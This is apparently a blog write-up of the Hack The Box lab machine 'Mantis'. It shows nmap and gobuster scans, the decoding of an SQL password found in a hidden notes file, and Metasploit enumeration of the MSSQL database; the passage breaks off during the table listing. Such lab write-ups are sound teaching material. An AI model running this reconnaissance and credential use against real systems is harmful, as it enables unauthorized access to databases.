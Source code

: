 ```yaml
---
layout: post
title: Mantis(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.52

**Nmap**:-

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A --top-ports 10000 10.10.10.52</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-24 03:38 EST
<br>Nmap scan report for 10.10.10.52
<br>Host is up (0.16s latency).
<br>Not shown: 8270 closed ports
<br>PORT      STATE SERVICE      VERSION
<br><font color="BB69EC">53/tcp</font>    open  <font color="53E100">domain</font>       Microsoft DNS 6.1.7601
<br>| dns-nsid: 
<br>|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
<br><font color="BB69EC">88/tcp</font>    open  <font color="53E100">kerberos-sec</font> Microsoft Windows Kerberos (server time: 2018-02-24 09:03:52Z)
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">139/tcp</font>   open  <font color="53E100">netbios-ssn</font>  Microsoft Windows netbios-ssn
<br><font color="BB69EC">389/tcp</font>   open  <font color="53E100">ldap</font>         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
<br><font color="BB69EC">445/tcp</font>   open  <font color="53E100">microsoft-ds</font> Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
<br><font color="BB69EC">464/tcp</font>   open  <font color="53E100">kpasswd5?</font>
<br><font color="BB69EC">593/tcp</font>  open  <font color="53E100">ncacn_http</font>   Microsoft Windows RPC over HTTP 1.0
<br><font color="BB69EC">636/tcp</font>   open  <font color="53E100">tcpwrapped</font>
<br><font color="BB69EC">1337/tcp</font>  open  <font color="53E100">http</font>         Microsoft IIS httpd 7.5
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: IIS7
<br><font color="BB69EC">1433/tcp</font>  open  <font color="53E100">ms-sql-s</font>     Microsoft SQL Server 2014 12.00.2000.00; RTM
<br>| ms-sql-ntlm-info: 
<br>|   Target_Name: HTB
<br>|   NetBIOS_Domain_Name: HTB
<br>|   NetBIOS_Computer_Name: <font color="53E100">MANTIS</font>
<br>|   DNS_Domain_Name: <font color="53E100">htb.local</font>
<br>|   DNS_Computer_Name: <font color="53E100">mantis.htb.local</font>
<br>|   DNS_Tree_Name: htb.local
<br>|_  Product_Version: 6.1.7601
<br>| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
<br>| Not valid before: 2018-02-20T21:58:06
<br>|_Not valid after:  2048-02-20T21:58:06
<br>|_ssl-date: 2018-02-24T09:05:13+00:00; -2s from scanner time.
<br><font color="BB69EC">3268/tcp</font>  open  <font color="53E100">ldap</font>         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
<br><font color="BB69EC">3269/tcp</font>  open  <font color="53E100">tcpwrapped</font>
<br><font color="BB69EC">5722/tcp</font>  open  <font color="53E100">msrpc</font>       Microsoft Windows RPC
<br><font color="BB69EC">8080/tcp</font>  open  <font color="53E100">http</font>         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
<br>|_http-open-proxy: Proxy might be redirecting requests
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Tossed Salad - Blog
<br><font color="BB69EC">9389/tcp</font>  open  <font color="53E100">mc-nmf</font>       .NET Message Framing
<br><font color="BB69EC">47001/tcp</font> open  <font color="53E100">http</font>         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
<br>|_http-server-header: Microsoft-HTTPAPI/2.0
<br>|_http-title: Not Found
<br><font color="BB69EC">49152/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49153/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49155/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49157/tcp</font> open  <font color="53E100">ncacn_http</font>   Microsoft Windows RPC over HTTP 1.0
<br><font color="BB69EC">49158/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49164/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49166/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49168/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br>No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
<br>TCP/IP fingerprint:
<br>OS:SCAN(V=7.50%E=4%D=2/24%OT=53%CT=1%CU=41156%PV=Y%DS=2%DC=T%G=Y%TM=5A912B4
<br>OS:3%P=i686-pc-linux-gnu)SEQ(SP=107%GCD=2%ISR=10A%TI=I%CI=I%TS=7)SEQ(SP=107
<br>OS:%GCD=1%ISR=10A%TI=I%TS=7)OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT
<br>OS:11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000
<br>OS:%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=N%Q=)T
<br>OS:1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%
<br>OS:O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80
<br>OS:%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
<br>OS:=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A
<br>OS:=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%R
<br>OS:UCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)</p>

<p>Network Distance: 2 hops
<br>Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p> Host script results:
<br>|_clock-skew: mean: -2s, deviation: 0s, median: -2s
<br>| ms-sql-info: 
<br>|   10.10.10.52:1433: 
<br>|     Version: 
<br>|       name: Microsoft SQL Server 2014 RTM
<br>|       number: 12.00.2000.00
<br>|       Product: Microsoft SQL Server 2014
<br>|       Service pack level: RTM
<br>|       Post-SP patches applied: false
<br>|_    TCP port: 1433
<br>| smb-os-discovery: 
<br>|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
<br>|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
<br>|   Computer name: mantis
<br>|   NetBIOS computer name: MANTIS\x00
<br>|   Domain name: htb.local
<br>|   Forest name: htb.local
<br>|   FQDN: mantis.htb.local
<br>|_  System time: 2018-02-24T04:05:16-05:00
<br>| smb-security-mode: 
<br>|   account_used:
<br>|   authentication_level: user
<br>|   challenge_response: supported
<br>|_  message_signing: required
<br>|_smbv2-enabled: Server supports SMBv2 protocol </p>

<p>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   158.80 ms 10.10.14.1
<br>2   159.05 ms 10.10.10.52</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 1719.57 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>

**Web :-**

**Port : 8080**
![1](https://teckk2.github.io/assets/images/Mantis/1.png)
![2](https://teckk2.github.io/assets/images/Mantis/2.png)
<br>On port 8080 Orchard CMS is running

**Port : 1337**
**Gobuster**

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u http://10.10.10.52:1337/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt </p>

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : http://10.10.10.52:1337/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 200,204,301,302,307
<br>[+] Expanded     : true
<br>=====================================================
<br>http://10.10.10.52:1337/secure_notes (Status: 301)
<br>=====================================================
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>

![3](https://teckk2.github.io/assets/images/Mantis/3.png)
<br>Open dev-notes and you will see there is a hint for Orchid CMS with username **admin**
![4](https://teckk2.github.io/assets/images/Mantis/4.png)
<br>If you look at the URL carefully you will notice it's a base64
<br>[http://10.10.10.52:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt](http://10.10.10.52:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt)
<br>**NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx**
![5](https://teckk2.github.io/assets/images/Mantis/5.png)

<br>The output is in **Hex** which we can decrypt using an [online tool](https://www.rapidtables.com/convert/number/hex-to-ascii.html)

![6](https://teckk2.github.io/assets/images/Mantis/6.png)
<br>**Username : admin**
<br>**Password: m$$ql_S@_P@ssW0rd!**
<br>Now we can proceed further to enumerate the database as we have the password.
<br>I am not going to show every steps of the enumeration, but only the main parts of it.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use auxiliary/admin/mssql/mssql_sql
<br>msf auxiliary(<font color="red">mssql_sql</font>) > set username admin
<br>username => admin
<br>msf auxiliary(<font color="red">mssql_sql</font>) > set password m$$ql_S@_P@ssW0rd!
<br>password => m$$ql_S@_P@ssW0rd!
<br>msf auxiliary(<font color="red">mssql_sql</font>) > set RHOST 10.10.10.52
<br>RHOST => 10.10.10.52
<br>msf auxiliary(<font color="red">mssql_sql</font>) > set SQL USE orcharddb; SELECT * FROM INFORTION_SCHEMA.TABLES
<br>SQL => USE orcharddb; SELECT * FROM INFORMATION_SCHEMA.TABLES
<br>msf auxiliary(<font color="red">mssql_sql</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.52:1433 - SQL Query: USE orcharddb; SELECT * FROM INFORMATION_SCHEMA.TABLES
<br><font color="RoyalBlue">[*]</font> 10.10.10.52:1433 - Row Count: 62 (Status: 16 Command: 193)</p>



<p>&nbsp;TABLE_CATALOG&nbsp;&nbsp;TABLE_SCHEMA&nbsp;&nbsp;TABLE_NAME&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;TABLE_TYPE
<br>&nbsp;-------------&nbsp;&nbsp;------------&nbsp;&nbsp;----------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----------
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Blogs_RecentBlogPostsPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Blogs_BlogArchivesPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_TransitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_WorkflowRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_WorkflowDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_AwaitingActivityRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_ActivityRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Tags_TagsPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_DataMigrationRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Tags_TagRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Tags_ContentTagRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentFieldDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_DistributedLockRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentPartDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentPartFieldDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentTypeDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentTypePartDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellDescriptorRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellFeatureRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellFeatureStateRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellParameterRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellStateRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_ContentItemRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_ContentItemVersionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_ContentTypeRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_CultureRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Common_BodyPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Common_CommonPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Common_CommonPartVersionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Common_IdentityPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Containers_ContainerPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Containers_ContainerWidgetPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
